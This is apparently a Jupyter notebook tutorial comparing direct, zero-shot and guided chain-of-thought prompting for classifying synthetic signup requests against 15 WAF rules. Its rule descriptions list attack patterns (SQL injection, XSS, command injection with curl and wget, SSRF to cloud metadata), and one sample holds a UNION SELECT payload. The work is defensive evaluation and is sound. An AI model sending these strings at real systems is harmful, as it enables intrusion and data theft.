print("✅ Playbook families defined")
print(f"   Full playbook:  {len(WAF_PLAYBOOK):,} chars")
for key, text in PLAYBOOK_FAMILIES.items():
    print(f"   Family {key}:      {len(text):,} chars ({len(text)/len(WAF_PLAYBOOK)*100:.0f}% of full playbook)")
print(f"   Routing system: {len(FAMILY_ROUTING_SYSTEM):,} chars")
print()
print("   When the router identifies one family, the classifier sees ~20-25% of the full playbook.")
print("   When two families are returned, still only ~40-50% — full rule detail, fraction of tokens.")


✅ Playbook families defined
   Full playbook:  13,103 chars
   Family A:      2,937 chars (22% of full playbook)
   Family B:      2,260 chars (17% of full playbook)
   Family C:      2,028 chars (15% of full playbook)
   Family D:      2,220 chars (17% of full playbook)
   Family E:      1,461 chars (11% of full playbook)
   Routing system: 838 chars

   When the router identifies one family, the classifier sees ~20-25% of the full playbook.
   When two families are returned, still only ~40-50% — full rule detail, fraction of tokens.


---

# Let's generate the HTTP Requests Dataset

We're generating the requests directly with Groq rather than pulling from a public dataset. What we need are realistic labeled requests that map to our 15 rules, not raw packet captures. Building them this way means every request comes with a ground truth label we can score against.

Let's do 45 requests total:
- 3 per rule (15 rules × 3 = 45)
- Mix of clean requests as false positives.
- Some requests trigger one rule clearly, some combine patterns (the harder but most usefull cases for proactive training)

Each request will be a structured dict that looks like what a real WAF or API gateway would log.

In [5]:
# We generate requests in batches per rule family to keep output quality high
# Smaller batches = better JSON / realistic payloads

GENERATION_SYSTEM = """You are generating realistic synthetic HTTP request examples for a WAF triage training dataset.
Each request targets the /api/v1/signup endpoint.
Generate requests that look exactly like what a real WAF or API gateway would log.
Every request must be a valid JSON object. Return ONLY a valid JSON array, no explanation, no markdown."""


def generate_requests_for_rule(rule_id: str, rule_description: str, n: int = 3) -> list:
    """
    Generate n realistic HTTP requests that trigger a specific WAF rule.
    Returns a list of request dicts with a ground_truth label attached.
    """
    prompt = f"""Generate {n} realistic HTTP request examples that would trigger rule {rule_id}.

Rule context:
{rule_description}

Each request must be a JSON object with exactly these fields:
  - method: "POST"
  - path: "/api/v1/signup"
  - headers: dict of HTTP headers (include User-Agent, Content-Type, and 3-5 other realistic headers)
  - body: dict representing the JSON request body (email, username, password, and optional fields)
  - ground_truth_rule: "{rule_id}"
  - ground_truth_action: one of ["BLOCK", "FLAG_FOR_REVIEW", "RATE_LIMIT", "CHALLENGE"]
  - notes: one sentence explaining what makes this request malicious

Make the payloads realistic, use actual attack strings, not placeholders.
Vary the attack slightly across the {n} examples (different fields, different encoding, different intensity).
Return ONLY a valid JSON array with {n} objects:"""

    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": GENERATION_SYSTEM},
            {"role": "user",   "content": prompt}
        ],
        temperature=0.8,
        max_tokens=2048,
    )

    raw = response.choices[0].message.content.strip()

    # Strip markdown fences
    if "```" in raw:
        parts = raw.split("```")
        raw = parts[1] if len(parts) > 1 else parts[0]
        if raw.startswith("json"):
            raw = raw[4:]

    # Extract JSON array
    import re
    match = re.search(r'\[.*\]', raw, re.DOTALL)
    if match:
        raw = match.group(0)

    return json.loads(raw.strip())


print("✅ Generation function defined")
print("   We'll generate 3 requests per rule (15 rules = 45 requests total)")

✅ Generation function defined
   We'll generate 3 requests per rule (15 rules = 45 requests total)


In [7]:
# Test generation with a single rule before running the full batch
# Always validate output shape before scaling up, same principle as Module 1

print("Testing generation with WAF-01 (SQL Injection)...\n")

test_requests = generate_requests_for_rule(
    rule_id="WAF-01",
    rule_description="SQL injection in form fields. Look for tautology patterns like ' OR 1=1--, UNION SELECT, and comment sequences --, #, /*.",
    n=2
)

print(f"Generated {len(test_requests)} test requests\n")
for i, req in enumerate(test_requests, 1):
    print(f"Request {i}:")
    print(f"  Rule triggered: {req.get('ground_truth_rule')}")
    print(f"  Action:         {req.get('ground_truth_action')}")
    print(f"  Body:           {json.dumps(req.get('body', {}), indent=2)}")
    print(f"  Notes:          {req.get('notes')}")
    print()

Testing generation with WAF-01 (SQL Injection)...

Generated 2 test requests

Request 1:
  Rule triggered: WAF-01
  Action:         BLOCK
  Body:           {
  "email": "user@example.com",
  "username": "test_user",
  "password": "P@ssw0rd",
  "first_name": "John",
  "last_name": "Doe"
}
  Notes:          Tautology pattern in query parameter invite_code

Request 2:
  Rule triggered: WAF-01
  Action:         FLAG_FOR_REVIEW
  Body:           {
  "email": "user' UNION SELECT * FROM users --@example.com",
  "username": "test_user",
  "password": "P@ssw0rd",
  "first_name": "John",
  "last_name": "Doe"
}
  Notes:          SQL injection payload in email field using UNION SELECT



The output above shows the shape of what we're working with. Each generated request has:
- A realistic HTTP header set
- A body with actual attack payloads, not placeholder text
- A ground truth label we'll use to score the model later

If something looks off, malformed JSON, missing fields, placeholder strings instead of real payloads, the cell below will tell you. Then after confirmation run the full generation next.

In [8]:
import re
import json
import time

def safe_parse_json(raw: str) -> list:
    """
    Try progressively more aggressive cleaning strategies before giving up.
    Returns a list of dicts or raises json.JSONDecodeError.
    """
    # Strip markdown fences
    if "```" in raw:
        parts = raw.split("```")
        raw = parts[1] if len(parts) > 1 else parts[0]
        if raw.startswith("json"):
            raw = raw[4:]
    raw = raw.strip()

    # Strategy 1: parse as it is
    try:
        return json.loads(raw)
    except json.JSONDecodeError:
        pass

    # Strategy 2: extract the JSON array by bracket matching
    match = re.search(r'\[.*\]', raw, re.DOTALL)
    if match:
        try:
            return json.loads(match.group(0))
        except json.JSONDecodeError:
            pass

    # Strategy 3: extract individual objects and parse each one
    objects = re.findall(r'\{[^{}]+\}', raw, re.DOTALL)
    if objects:
        parsed = []
        for obj in objects:
            try:
                parsed.append(json.loads(obj))
            except json.JSONDecodeError:
                continue
        if parsed:
            return parsed

    # If nothing worked
    raise json.JSONDecodeError("All parsing strategies failed", raw, 0)


def generate_requests_for_rule(rule_id: str, rule_description: str, n: int = 3) -> list:
    """
    Generate n HTTP requests for a given WAF rule.
    On JSON parse failure, retries once with a stricter prompt.
    """
    def build_prompt(strict: bool = False) -> str:
        strictness = (
            "\n\nCRITICAL JSON RULES — you must follow these exactly:\n"
            "- Escape ALL backslashes as \\\\\n"
            "- Escape ALL double quotes inside string values as \\\"\n"
            "- Do NOT use actual newlines inside string values, use \\n instead\n"
            "- Do NOT include raw HTML tags like <script> unescaped — write them as strings\n"
            "- Every string value must be valid JSON — no unescaped special characters\n"
            "- Return ONLY the JSON array, absolutely nothing else"
        ) if strict else ""

        return f"""Generate {n} realistic HTTP request examples that would trigger rule {rule_id}.

Rule context:
{rule_description}

Each request must be a JSON object with exactly these fields:
  - method: "POST"
  - path: "/api/v1/signup"
  - headers: dict of HTTP headers (include User-Agent, Content-Type, and 3-5 realistic headers)
  - body: dict representing the JSON request body (email, username, password, optional fields)
  - ground_truth_rule: "{rule_id}"
  - ground_truth_action: one of ["BLOCK", "FLAG_FOR_REVIEW", "RATE_LIMIT", "CHALLENGE"]
  - notes: one sentence explaining what makes this request malicious

Make payloads realistic — use actual attack strings, not placeholders.
Vary the attack slightly across the {n} examples.
Return ONLY a valid JSON array with {n} objects.{strictness}"""

    for attempt in range(2):
        strict_mode = attempt == 1
        try:
            response = client.chat.completions.create(
                model=MODEL,
                messages=[
                    {"role": "system", "content": GENERATION_SYSTEM},
                    {"role": "user",   "content": build_prompt(strict=strict_mode)}
                ],
                temperature=0.8 if attempt == 0 else 0.3,  # Lower temp on retry
                max_tokens=2048,
            )
            raw = response.choices[0].message.content.strip()
            result = safe_parse_json(raw)
            if strict_mode:
                print(f"    ↳ recovered on retry")
            return result

        except json.JSONDecodeError as e:
            if attempt == 0:
                print(f"    ↳ parse failed ({e}), retrying with strict prompt...")
                time.sleep(2)
            else:
                raise  # Both attempts failed, try to catch it with the outer loop


# Generation loop: 3 requests per rule, 15 rules
RULES_METADATA = [
    ("WAF-01", "SQL injection: tautology patterns ' OR 1=1--, UNION SELECT, comment sequences --, #, /*, SLEEP/WAITFOR for blind injection"),
    ("WAF-02", "XSS: <script> tags, event handlers like onerror= onload= onmouseover=, javascript: URI, String.fromCharCode obfuscation"),
    ("WAF-03", "OS command injection: shell metacharacters ; | && backtick $() with command names cat curl wget bash id whoami"),
    ("WAF-04", "NoSQL injection: MongoDB operators $gt $ne $regex $where in JSON body or bracket notation username[$ne]=admin"),
    ("WAF-05", "Email field abuse: CRLF injection with \\r\\n or %0d%0a, disposable email domains mailinator.com guerrillamail.com, subaddressing user+1@domain.com at volume"),
    ("WAF-06", "Malformed input: null bytes \\x00 %00 in fields, fields exceeding normal length limits, repeated fuzzing chars aaaaa or '''''''"),
    ("WAF-07", "SSRF via URL fields: internal IPs 127.0.0.1 192.168.x.x 10.x.x.x, AWS metadata 169.254.169.254, file:// gopher:// schemes in profile_picture_url or website field"),
    ("WAF-08", "Bot fingerprint: non-browser User-Agent python-requests axios curl, missing Accept-Language, sequential patterned data in email/username fields"),
    ("WAF-09", "Rate limit evasion: X-Forwarded-For with private/loopback IPs 127.0.0.1 10.x.x.x, multiple chained forwarded IPs, True-Client-IP spoofing"),
    ("WAF-10", "Headless browser: HeadlessChrome Selenium PhantomJS Playwright in UA, missing Sec-Fetch-Site Sec-Fetch-Mode headers on Chrome claim, no cookies"),
    ("WAF-11", "Encoding bypass: double URL encoding %2527 %253C, HTML entity encoding &lt;script&gt; in JSON fields, Unicode fullwidth chars, null byte %00 in tags"),
    ("WAF-12", "Obfuscation: SQL comment fragmentation SE/**/LECT UN/**/ION, MySQL /*!SELECT*/, mixed case SeLeCt oR, JavaScript comment <scr<!---->ipt>"),
    ("WAF-13", "Header spoofing: sqlmap/1.x Nikto nuclei dirbuster in UA, Referer pointing to internal hostnames, X-Custom-IP-Authorization: 127.0.0.1"),
    ("WAF-14", "Account enumeration: many requests with identical non-email fields, only email varies, sequential email patterns a@test.com b@test.com"),
    ("WAF-15", "Credential stuffing: common breached passwords Password1! Welcome123 Qwerty123! across many accounts, low password entropy across session"),
]

all_requests = []
failed_rules = []

print(f"Generating {len(RULES_METADATA) * 3} requests across {len(RULES_METADATA)} rules...\n")

for rule_id, rule_desc in RULES_METADATA:
    try:
        batch = generate_requests_for_rule(rule_id, rule_desc, n=3)
        all_requests.extend(batch)
        print(f"  ✅ {rule_id}: {len(batch)} requests generated")
        time.sleep(1.5)

    except Exception as e:
        print(f"  ❌ {rule_id}: failed both attempts — {e}")
        failed_rules.append(rule_id)
        time.sleep(3)

print(f"\n{'='*50}")
print(f"Total requests generated: {len(all_requests)}")
if failed_rules:
    print(f"Failed rules (retry manually): {failed_rules}")
else:
    print("All rules generated successfully")

Generating 45 requests across 15 rules...

  ✅ WAF-01: 3 requests generated
  ✅ WAF-02: 3 requests generated
  ✅ WAF-03: 3 requests generated
  ✅ WAF-04: 3 requests generated
  ✅ WAF-05: 3 requests generated
  ✅ WAF-06: 5 requests generated
  ✅ WAF-07: 3 requests generated
  ✅ WAF-08: 3 requests generated
  ✅ WAF-09: 3 requests generated
  ✅ WAF-10: 3 requests generated
  ✅ WAF-11: 3 requests generated
  ✅ WAF-12: 3 requests generated
  ✅ WAF-13: 3 requests generated
  ✅ WAF-14: 3 requests generated
  ✅ WAF-15: 3 requests generated

Total requests generated: 47
All rules generated successfully


In [9]:
# Creation of legitimate requests 
# The model should classify these as CLEAN without over-triggering on normal user behavior

CLEAN_REQUESTS = [
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 Chrome/120.0.0.0 Safari/537.36",
            "Content-Type": "application/json",
            "Accept": "application/json, text/plain, */*",
            "Accept-Language": "en-US,en;q=0.9",
            "Accept-Encoding": "gzip, deflate, br",
            "Sec-Fetch-Site": "same-origin",
            "Sec-Fetch-Mode": "cors",
            "Sec-Fetch-Dest": "empty",
            "Sec-CH-UA": '"Not_A Brand";v="8", "Chromium";v="120"',
            "Cookie": "session_init=f3a9b2c1d4e5"
        },
        "body": {
            "email": "sarah.chen@gmail.com",
            "username": "sarahchen",
            "password": "Tr0ub4dor&3",
            "display_name": "Sarah Chen"
        },
        "ground_truth_rule": "NONE",
        "ground_truth_action": "ALLOW",
        "notes": "Legitimate signup from a real browser — all headers consistent, no attack patterns"
    },
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0",
            "Content-Type": "application/json",
            "Accept": "application/json",
            "Accept-Language": "en-GB,en;q=0.8",
            "Accept-Encoding": "gzip, deflate, br",
            "Sec-Fetch-Site": "same-origin",
            "Sec-Fetch-Mode": "cors",
            "Cookie": "session_init=a1b2c3d4e5f6"
        },
        "body": {
            "email": "james.okonkwo@outlook.com",
            "username": "james_ok",
            "password": "correct-horse-battery-staple",
            "referral_code": "FRIEND2024",
            "website": "https://jamesokonkwo.com"
        },
        "ground_truth_rule": "NONE",
        "ground_truth_action": "ALLOW",
        "notes": "Legitimate signup — Firefox browser, long passphrase is fine, referral code and website are clean"
    },
    {
        "method": "POST",
        "path": "/api/v1/signup",
        "headers": {
            "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 17_2 like Mac OS X) AppleWebKit/605.1.15 Mobile/15E148 Safari/604.1",
            "Content-Type": "application/json",
            "Accept": "application/json",
            "Accept-Language": "es-MX,es;q=0.9",
            "Accept-Encoding": "gzip, deflate, br",
            "Cookie": "session_init=z9y8x7w6v5"
        },
        "body": {
            "email": "maria.garcia+work@gmail.com",
            "username": "mariagarcia_mx",
            "password": "M1campo#2024",
            "display_name": "María García"
        },
        "ground_truth_rule": "NONE",
        "ground_truth_action": "ALLOW",
        "notes": "Legitimate mobile signup — subaddressing (+work) is a single isolated use, not at volume"
    },
]

all_requests.extend(CLEAN_REQUESTS)
random.shuffle(all_requests)

print(f"Dataset ready: {len(all_requests)} total requests")
print()
print("Distribution:")

rule_counts = Counter(r.get("ground_truth_rule", "MISSING") for r in all_requests)
for rule, count in sorted(rule_counts.items()):
    bar = "█" * count
    print(f"  {rule:8s} {count}  {bar}")

# Flag any malformed requests so you know what got through
malformed = [i for i, r in enumerate(all_requests) if "ground_truth_rule" not in r]
if malformed:
    print(f"\n⚠️  {len(malformed)} requests missing 'ground_truth_rule' at indices: {malformed}")
    print("   These will be filtered out before scoring.")
    all_requests = [r for r in all_requests if "ground_truth_rule" in r]
    print(f"   Dataset after cleanup: {len(all_requests)} requests")

Dataset ready: 50 total requests

Distribution:
  MISSING  5  █████
  NONE     3  ███
  WAF-01   3  ███
  WAF-02   3  ███
  WAF-03   3  ███
  WAF-04   3  ███
  WAF-05   3  ███
  WAF-07   3  ███
  WAF-08   3  ███
  WAF-09   3  ███
  WAF-10   3  ███
  WAF-11   3  ███
  WAF-12   3  ███
  WAF-13   3  ███
  WAF-14   3  ███
  WAF-15   3  ███

⚠️  5 requests missing 'ground_truth_rule' at indices: [20, 22, 32, 35, 38]
   These will be filtered out before scoring.
   Dataset after cleanup: 45 requests


In [10]:
# Save the full dataset to disk
# Having this saved means you don't have to re-generate if the notebook restarts

dataset_path = data_dir / "waf_requests.jsonl"

with open(dataset_path, "w") as f:
    for req in all_requests:
        f.write(json.dumps(req, ensure_ascii=False) + "\n")

print(f"✅ Dataset saved to {dataset_path}")
print(f"   {len(all_requests)} requests — reload with:")
print(f"   all_requests = [json.loads(l) for l in open(dataset_path)]")

✅ Dataset saved to /Users/sebastianvargas/Documents/newlife/ai/projects/llm-prompting-labs/modules/02_chain_of_thought/data/waf_requests.jsonl
   45 requests — reload with:
   all_requests = [json.loads(l) for l in open(dataset_path)]


---

# Direct Classification (No Reasoning)

Before we apply any CoT model, we need to know what the model does without it. This is the wanted control.

The prompt will asks the model to read the playbook and classify the request directly, no intermediate steps, just a verdict and a rule. This mirrors what a naive implementation would look like.

Pay attention to the output format. This is also a real production pattern, a WAF system needs structured output, not a paragraph.

In [ ]:
import re

BASELINE_COMPACT = """You are a WAF analyst classifying HTTP signup requests.

Respond with a valid JSON object:
{
  "reasoning": "your step-by-step analysis",
  "verdict": "malicious" or "clean",
  "rule_triggered": "WAF-XX" or "NONE",
  "action": "BLOCK" or "FLAG_FOR_REVIEW" or "RATE_LIMIT" or "CHALLENGE" or "ALLOW",
  "confidence": "high" or "medium" or "low"
}
JSON only — no text outside the JSON object."""


def _parse_classifier_response(raw: str, extra_keys: list = None) -> dict:
    """Shared JSON parsing logic for all three classifiers."""
    if "```" in raw:
        raw = raw.split("```")[1]
        if raw.startswith("json"):
            raw = raw[4:]
    raw = raw.strip()

    try:
        return json.loads(raw)
    except json.JSONDecodeError:
        pass

    match = re.search(r'\{.*\}', raw, re.DOTALL)
    if match:
        try:
            return json.loads(match.group(0))
        except json.JSONDecodeError:
            pass

    result = {"verdict": "unknown", "rule_triggered": "UNKNOWN",
              "action": "UNKNOWN", "confidence": "low"}
    raw_lower = raw.lower()
    if "malicious" in raw_lower:   result["verdict"] = "malicious"
    elif "clean" in raw_lower:     result["verdict"] = "clean"
    rule_m = re.search(r'WAF-\d+', raw, re.IGNORECASE)
    if rule_m: result["rule_triggered"] = rule_m.group(0).upper()
    for conf in ["high", "medium", "low"]:
        if conf in raw_lower:
            result["confidence"] = conf
            break
    if extra_keys:
        for k in extra_keys:
            if k not in result:
                result[k] = ""
    return result


def classify_baseline(request: dict) -> dict:
    """Direct classification — compact rule list, no routing, no reasoning."""
    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": BASELINE_COMPACT},
            {"role": "user",   "content": f"Classify this request:\n\n{json.dumps(request, indent=2)}\n\nJSON only."}
        ],
        temperature=0,
        max_tokens=200,
    )
    return _parse_classifier_response(response.choices[0].message.content.strip())


print("✅ Baseline classifier defined")
print("   Compact rule list, no routing, no reasoning, direct answer")
print("   This is the control: fast, shallow, limited context")


✅ Baseline classifier defined
   Compact rule list, no routing, no reasoning, direct answer
   This is the control: fast, shallow, limited context


In [20]:
# Run baseline on a sample of requests, prioritizing harder cases where patterns overlap
# Evasion rules, bot signals, and account abuse are where direct classification might find more issues with
# Running on a focused sample is enough to see the pattern before we add CoT

hard_rules  = ["WAF-09", "WAF-10", "WAF-11", "WAF-12", "WAF-14", "WAF-15"]
medium_rules = ["WAF-02", "WAF-04", "WAF-05", "WAF-07", "WAF-08", "WAF-13"]
clean_rules  = ["NONE"]

sample_requests = []
for rule in hard_rules:
    matches = [r for r in all_requests if r.get("ground_truth_rule") == rule]
    sample_requests.extend(matches[:2])  # 2 per hard rule
for rule in medium_rules:
    matches = [r for r in all_requests if r.get("ground_truth_rule") == rule]
    sample_requests.extend(matches[:1])
for rule in clean_rules:
    matches = [r for r in all_requests if r.get("ground_truth_rule") == rule]
    sample_requests.extend(matches[:2])

print(f"Running baseline on {len(sample_requests)} sampled requests...\n")
baseline_results = []

for req in sample_requests:
    result = classify_baseline(req)
    baseline_results.append({
        "request": req,
        "result": result
    })
    time.sleep(2)

# Rule match accuracy
rule_correct = sum(
    1 for r in baseline_results
    if r["result"].get("rule_triggered") == r["request"].get("ground_truth_rule")
)
# Verdict accuracy (malicious vs fps)
verdict_correct = sum(
    1 for r in baseline_results
    if (r["result"].get("verdict") == "malicious") == (r["request"].get("ground_truth_rule") != "NONE")
)

n = len(baseline_results)
print(f"Baseline results:")
print(f"  Verdict accuracy (malicious/clean): {verdict_correct}/{n} = {verdict_correct/n*100:.0f}%")
print(f"  Rule match accuracy:                {rule_correct}/{n} = {rule_correct/n*100:.0f}%")
print()

for r in baseline_results:
    gt_rule   = r["request"].get("ground_truth_rule", "?")
    pred_rule = r["result"].get("rule_triggered", "?")
    match     = "✅" if pred_rule == gt_rule else "❌"
    print(f"  {match} True: {gt_rule:8s} | Predicted: {pred_rule:8s} | Confidence: {r['result'].get('confidence', '?')}")

Running baseline on 20 sampled requests...

Baseline results:
  Verdict accuracy (malicious/clean): 20/20 = 100%
  Rule match accuracy:                17/20 = 85%

  ✅ True: WAF-09   | Predicted: WAF-09   | Confidence: high
  ✅ True: WAF-09   | Predicted: WAF-09   | Confidence: high
  ✅ True: WAF-10   | Predicted: WAF-10   | Confidence: high
  ✅ True: WAF-10   | Predicted: WAF-10   | Confidence: high
  ❌ True: WAF-11   | Predicted: WAF-02   | Confidence: high
  ✅ True: WAF-11   | Predicted: WAF-11   | Confidence: high
  ❌ True: WAF-12   | Predicted: WAF-01   | Confidence: high
  ❌ True: WAF-12   | Predicted: WAF-02   | Confidence: high
  ✅ True: WAF-14   | Predicted: WAF-14   | Confidence: high
  ✅ True: WAF-14   | Predicted: WAF-14   | Confidence: high
  ✅ True: WAF-15   | Predicted: WAF-15   | Confidence: high
  ✅ True: WAF-15   | Predicted: WAF-15   | Confidence: high
  ✅ True: WAF-02   | Predicted: WAF-02   | Confidence: high
  ✅ True: WAF-04   | Predicted: WAF-04   | Confidence: h

## What you're seeing

Look at the ❌ rows. The failures tend to be around rules that share similar signals with other rules, obfuscation patterns that resemble injection, bot signals that look like legitimate automation, evasion techniques that only reveal themselves when you read the full header set carefully. Without a reasoning step, the model pattern-matches on whatever signal is loudest and sometimes lands on the wrong category.

The overall accuracy in this test should be strong. Direct classification works well when attack patterns are obvious and unambiguous. Where it breaks down is on the subtle cases, rules where the malicious part requires connecting multiple patterns before a conclusion makes sense.

Also notice how the majority of the confidence scores came back high. Smaller models don't have strong uncertainty calibration, they default to confident even when the evidence is mixed. The real confidence it's in the reasoning chain. When a model has to show its work, you can read the chain and judge for yourself whether the verdict actually holds. That's what guided CoT actually gives us.

---

# Zero-Shot CoT: generate it but think step by step how to do it

Let's see another example, a one sentence change. That's it.

We add "think step by step before classifying" to the prompt and nothing else changes, same model, same playbook, same requests. This is the Wei et al. finding in practice: the instruction to reason before answering changes what the model actually does internally.

In [21]:
def classify_zero_shot_cot(request: dict) -> dict:
    """
    Zero-shot CoT routing + focused family rules + 'think step by step'.
    Better context than baseline. Unstructured reasoning on top of it.
    """
    families = route_to_family(request)
    focused  = build_focused_playbook(families)

    system = f"""You are a WAF analyst. Here are the relevant playbook rules:

{focused}

Confidence guidance:
- high: attack pattern is unambiguous and clearly present
- medium: pattern present but a benign explanation is plausible
- low: signals are weak or could easily be legitimate

Think step by step before classifying. Work through headers and body carefully.
Respond with a valid JSON object:
{{
  \"reasoning\": \"your step-by-step analysis\",
  \"verdict\": \"malicious\" or \"clean\",
  \"rule_triggered\": \"WAF-XX\" or \"NONE\",
  \"action\": \"BLOCK\" or \"FLAG_FOR_REVIEW\" or \"RATE_LIMIT\" or \"CHALLENGE\" or \"ALLOW\",
  \"confidence\": \"high\" or \"medium\" or \"low\"
}}
JSON only — no text outside the JSON object."""

    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": system},
            {"role": "user",   "content": f"Analyze and classify this request:\n\n{json.dumps(request, indent=2)}\n\nJSON only."}
        ],
        temperature=0,
        max_tokens=1200,
    )
    result = _parse_classifier_response(
        response.choices[0].message.content.strip(),
        extra_keys=["reasoning"]
    )
    return result


print("✅ Zero-shot CoT classifier defined")
print("   Routing + focused family rules + think step by step")


✅ Zero-shot CoT classifier defined
   Routing + focused family rules + think step by step


In [22]:
# Run zero shot CoT on the same sample
# Sample remains identical so the comparison is clean

print(f"Running zero-shot CoT on {len(sample_requests)} requests...\n")
zero_shot_cot_results = []

for req in sample_requests:
    result = classify_zero_shot_cot(req)
    zero_shot_cot_results.append({"request": req, "result": result})
    time.sleep(2)

# Score
zs_rule_correct = sum(
    1 for r in zero_shot_cot_results
    if r["result"].get("rule_triggered") == r["request"]["ground_truth_rule"]
)
zs_verdict_correct = sum(
    1 for r in zero_shot_cot_results
    if (r["result"].get("verdict") == "malicious") == (r["request"]["ground_truth_rule"] != "NONE")
)

print(f"Zero-shot CoT results:")
print(f"  Verdict accuracy: {zs_verdict_correct}/{n} = {zs_verdict_correct/n*100:.0f}%")
print(f"  Rule accuracy:    {zs_rule_correct}/{n} = {zs_rule_correct/n*100:.0f}%")
print()

# Show the reasoning on one example, identify the changes
print("=" * 60)
print("EXAMPLE: What the reasoning chain looks like")
print("=" * 60)
example = zero_shot_cot_results[0]
print(f"Request body: {json.dumps(example['request'].get('body', {}), indent=2)}")
print(f"\nModel reasoning:")
print(example['result'].get('reasoning', '(no reasoning captured)'))
print(f"\nVerdict:        {example['result'].get('verdict')}")
print(f"Rule triggered: {example['result'].get('rule_triggered')}")
print(f"True rule:      {example['request']['ground_truth_rule']}")

Running zero-shot CoT on 20 requests...

Zero-shot CoT results:
  Verdict accuracy: 20/20 = 100%
  Rule accuracy:    18/20 = 90%

EXAMPLE: What the reasoning chain looks like
Request body: {
  "email": "test3@example.com",
  "username": "testuser3",
  "password": "P@ssw0rd123"
}

Model reasoning:
The request headers contain a 'True-Client-IP' set to '127.0.0.1', which is a loopback IP address, and 'X-Forwarded-For' is set to '192.168.1.100', which is a private IP address. This combination of headers could indicate an attempt to spoof the client's IP address, potentially to bypass security measures or access restricted content. The 'User-Agent' appears to be a legitimate browser signature, but the use of loopback and private IPs in these headers is suspicious.

Verdict:        malicious
Rule triggered: WAF-13
True rule:      WAF-09


## What changed

Read the reasoning chain output. Compare it to the baseline output, which had none.

The model is now working through the request before providing an anwser. You can see it checking headers, scanning body fields, trying to match patterns. When it gets the right answer, you can see exactly why. When it gets the wrong answer, you can see exactly where the reasoning went sideways.

That auditability is the underrated benefit of CoT. It's not just accuracy, it's that the output is now debuggable.

But zero-shot CoT has a limit. The model decides its own reasoning steps, which means they're inconsistent across requests. Sometimes it checks headers first. Sometimes it skips them. Sometimes it stops reasoning too early. The next section fixes that.

---

# Now lets have some fun with the steps definition

This is where CoT becomes a real production tool.

Instead of asking the model to reason however it wants, we give it a specific analysis framework, the same steps an analyst would follow with the playbook. Every request goes through the same process, in the same order, with the same structure.

The framework mirrors how the playbook itself is organized:
1. Headers first (quick elimination of bot/tool traffic)
2. Body fields one by one (where most injection attacks live)
3. Playbook match (explicit rule reference, not a guess)
4. False positive check (is there an actual explanation?)
5. Verdict with explicit uncertainty if evidence is mixed

In [23]:
def classify_guided_cot(request: dict) -> dict:
    """
    Guided CoT: routing + focused family rules + explicit 5-step framework.
    Same context as zero-shot but structured steps prevent skipping signals.
    """
    families = route_to_family(request)
    focused  = build_focused_playbook(families)

    system = f"""You are a WAF analyst. Here are the relevant playbook rules:

{focused}

Confidence guidance:
- high: attack pattern is unambiguous and clearly present
- medium: pattern present but a benign explanation is plausible
- low: signals are weak or could easily be legitimate

Follow these exact steps before concluding:

STEP 1 - HEADER ANALYSIS
Check User-Agent, X-Forwarded-For, Referer, Cookie, Sec-Fetch-*, Sec-CH-UA, Accept-Language.
Does this look like a real browser? Note every anomaly.

STEP 2 - BODY FIELD SCAN
Go through each body field individually.
Check for injection chars, encoding tricks, operators, suspicious URLs.

STEP 3 - RULE MATCH
You MUST name the rule ID and the exact pattern that triggered it.
Never leave this blank. If nothing matches, write NONE and explain why.

STEP 4 - FALSE POSITIVE CHECK
Is there a legitimate benign explanation?
A long password could be a password manager. One subaddress could be a real user.

STEP 5 - VERDICT
Your verdict MUST follow from Step 3.
Named a rule → verdict is malicious. Step 3 is NONE → verdict is clean.
State confidence and recommended action explicitly.

Respond with a valid JSON object:
{{
  \"step1_headers\": \"header analysis\",
  \"step2_body\": \"body field scan\",
  \"step3_rule_match\": \"rule ID and pattern, or NONE\",
  \"step4_fp_check\": \"benign explanation if any\",
  \"step5_verdict\": \"final reasoning\",
  \"verdict\": \"malicious\" or \"clean\",
  \"rule_triggered\": \"WAF-XX\" or \"NONE\",
  \"action\": \"BLOCK\" or \"FLAG_FOR_REVIEW\" or \"RATE_LIMIT\" or \"CHALLENGE\" or \"ALLOW\",
  \"confidence\": \"high\" or \"medium\" or \"low\"
}}
JSON only — no text outside the JSON object."""

    response = client.chat.completions.create(
        model=MODEL,
        messages=[
            {"role": "system", "content": system},
            {"role": "user",   "content": f"Analyze and classify this request:\n\n{json.dumps(request, indent=2)}\n\nJSON only."}
        ],
        temperature=0,
        max_tokens=1500,
    )
    result = _parse_classifier_response(
        response.choices[0].message.content.strip(),
        extra_keys=["step1_headers","step2_body","step3_rule_match","step4_fp_check","step5_verdict"]
    )
    return result


print("✅ Guided CoT classifier defined")
print("   Routing + focused family rules + 5-step framework")
print("   Step 3: must name rule ID, never blank")
print("   Step 5: verdict must follow from Step 3")


✅ Guided CoT classifier defined
   Routing + focused family rules + 5-step framework
   Step 3: must name rule ID, never blank
   Step 5: verdict must follow from Step 3


In [24]:
print(f"Running guided CoT on {len(sample_requests)} requests...\n")
guided_cot_results = []

for req in sample_requests:
    result = classify_guided_cot(req)
    guided_cot_results.append({"request": req, "result": result})
    time.sleep(2)

gc_rule_correct = sum(
    1 for r in guided_cot_results
    if r["result"].get("rule_triggered") == r["request"]["ground_truth_rule"]
)
gc_verdict_correct = sum(
    1 for r in guided_cot_results
    if (r["result"].get("verdict") == "malicious") == (r["request"]["ground_truth_rule"] != "NONE")
)

print(f"Guided CoT results:")
print(f"  Verdict accuracy: {gc_verdict_correct}/{n} = {gc_verdict_correct/n*100:.0f}%")
print(f"  Rule accuracy:    {gc_rule_correct}/{n} = {gc_rule_correct/n*100:.0f}%")
print()

# visualize all the 5 steps the model took
print("=" * 60)
print("EXAMPLE: Full guided analysis")
print("=" * 60)
example = guided_cot_results[0]
res = example['result']
print(f"Request body: {json.dumps(example['request'].get('body', {}), indent=2)}")
print(f"\nStep 1 - Headers:         {res.get('step1_headers', '')}")
print(f"Step 2 - Body scan:       {res.get('step2_body', '')}")
print(f"Step 3 - Playbook match:  {res.get('step3_rule_match', '')}")
print(f"Step 4 - FP check:        {res.get('step4_fp_check', '')}")
print(f"Step 5 - Verdict:         {res.get('step5_verdict', '')}")
